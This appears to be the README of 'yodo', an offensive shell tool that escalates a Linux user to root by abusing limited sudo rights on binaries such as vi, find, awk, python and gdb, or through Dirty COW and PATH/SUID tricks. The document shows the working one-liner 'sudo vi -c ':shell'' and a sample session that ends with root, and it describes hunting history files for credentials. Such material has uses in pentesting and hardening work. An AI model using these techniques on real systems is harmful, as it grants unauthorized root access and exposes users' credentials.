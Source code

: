 # yodo
This tool proves how easy it is to become root via limited sudo permissions, via dirtyc0w or using Pa(th)zuzu.

Extra features
VSP: checks if the user is able to overwrite a sudo-enabled command with his own
History: checks for * history (like bash_history) files. You could be lucky!


Example:
If a user has sudo privileges only on vi, he could become root by runnuing this command: sudo vi -c ':shell'

    b3rito@victim ~/Desktop $ sudo vi -c ':shell'
    [sudo] password for b3rito:
    victim Desktop # whoami
    root

# Author
Written by b3rito at mes3hacklab

# Installation
    chmod +x yodo.sh

# Usage
./yodo.sh
    
    b3rito@victim ~/Desktop $ ./yodo.sh
    =======================================================================                                                       
                                    ....                         
                                ..  .77.                        
                                Z.  ,77?                        
                               .Z$.....,?+?.       
                       ....     $?Z.77+??I..            
                       .7I.  .....~.77:=I..Z.....      
                       .77?  ..7?.?.=7....ZO..~..            
                   ..  ..7$7.=7I$.??+.$$~.==.??..    .~..  
                  .$Z$..Z...77.$7..+=?,.I?=.++.+~....?7... ..  
                   ..?.I7:..77....$$IO++??=...7$.Z$..7$?..7$  
                   .77.+:$?7..Z$.?,.~M,?,..77. .ZZ...,,.$77.. 
              ..$=. +7$7...77+$I? ???M.$.I:~I?..,$..7$.Z7=.   
              ..Z7Z.=..~,.....,=O...~MI=~=...O$.~...?7..:$7I. 
              ...Z.Z.?I?.=:.??...??..M.ZZ.. ,.~Z$I,.,7...I.,....   
              ..,......:.~~.?.?+..?~7M..,?...==.~7..:.Z$+.. ....
                .?7..??,...Z.=?:.I7..M. D$Z?$+=.:... +Z+,....77.....
          .$~...:+O7$.+I+$=~:.=...7,:M.M~7 ..Z$..+~:?...7?$.?$~.OZZ$Z...
          ..$I7=?I?,..7?$$M..=:..?...MM.7$,.7...:??....,7I...?..Z$Z$$$.
          ...,=~.?.+.7.....8.$...?,+~MD+I...$7.I.O$Z$.. D8..I=$:$,....
            .$~+$....7Z.$$$7M.?+=$..,M8 .Z.I., M,ZZZ.MM..7+?+77..7..
              .. ...$.MM.....MZ$~Z:Z,MM.O$,$7,MZ .NMM.~77.+?+.7...
                 I7~Z....MM .M7Z....?MMO,Z..$.M 8MM ..=77I=~?..I~.
            .$7I7?.+...$...:MMM. .$=OMM?Z,,..MMMMMMMMMMMMMI..=Z$+...
            ..?7I$$I.+.O:Z,=.8MN.$??MMM..$7.MMM...Z.$.+,?.Z.Z=..$77$..
                   ...?OMMMMMMDMM7$IMMM ..MMM..,$7.Z$Z..??I$,Z.?I...
                   7?:++.??=...~8D..MMM MMMM.???.$...~$.....$Z..7$.. 
                   .....??,::Z$::MM.MMMMMM,,=II?II,.....   ...... ..
                        ,...?:...IOOO8OO8 ?I,:        ,.     
                            .     88OOOO. :.                 
                           .:,,,:,.8OOOO :.                  
                           .,....,. OO8M:.. :.               
                            ..... . 8OMN.:.                  
                                   .ONM8::.                  
                    :8MDO  8MDO   :8MDO,    DMO8M       :8MDO, 
                      DMO  DMO  .+8D   MO,  DMO  8M   .+8D   MO,
                        O  O    $O     OMM  DMO   8M  $O     OMM 
                      :8MDO    .OO     O8   DMO  8M  .OO     O8M,
                      DMO         .8°O88    DMO8M       .8°O88
                                  .8OOOO. .           :.       
                       ...         OOOOO,.                       
        ..  . ......    .........,.MMMMMMI.,........... .       
          .     .. ,INMMMMMMMMMMMMMMMMMMIZMMMMMMMN7=..... . . .  ..
                 .  =. ......~?ZMMMIM.MM NMMN...   .......=+ . .  
                 .  .. .  .$...MM,.MM ..MD....MMMMO... .. ..,..~ 
                 ,     .   . :MM.  MM  .ZMM?.. .$M...7MD77ZD+.,. 
              .    .  :=D7Z8MM.   .M:   .. .MD.. .7D~. ..,.O. .. 
              .. $..=.    ?M?. .. .M.  ..M...IMM  .,..M ..   ..:.. 
              . ..... . .MM.Z   D ,M+. . :+..M. N+ . . ..? . .... 
                       .M7=.+.=.~.:MM.    .  , . .M..   .  ,.  
                      .N?.8. ~  ..,M 8. ... . M. . M.      . . .  
                  . ..NM .$..    .MM...  .    ,+.:: 8 .         
                 . =M.M ..?..    ..M  M .   . .M .I,.M.       
            ,~~  .   .I...8..    M M  .8,.     Z.... b3    
               .     +.   +. .. : .M....O.    ...  . D.=.   
                     O.  .~,    $. 8     .    .~.  ..+ .   
                     8.   ...   M. ,..   , +   .I.. .,..7  
                     O.    .    I   I     ..  .   .  .... 
                     +.      .  :  .M.                   
                      .         .   M                  
                     ..         .   ..                
                     .          .                    
                      ~.             N.                                         
    =======================================================================
    Possible exploitable options (‡ excluded):
     [·] find
     [·] vi
     [·] b3
 
     Select From the menu:
 
       1) Find                8) Man  *               17) Pathzuzu °‡
       2) AWK                10) Dirty COW °‡         18) History °‡
       3) Nmap               11) Gdb                  19) Vim
       4) Vi                 12) Ruby                 20) Lua
       5) Python             13) b3                   21) Ftp *
       6) Irb                14) Perl                 22) Credits
       7) Less *             15) Tee                  23) Update
       8) More *             16) VSP °‡               99) Exit
         
     VSP = Vulnerable Script Permissions
     Pathzuzu = SUID exploitation threw Path vulnerability
     * user interatcion
     ° sudo not required
    Enter Number: 1
    [sudo] password for b3rito:
    victim Desktop # whoami
    root
    victim Desktop #
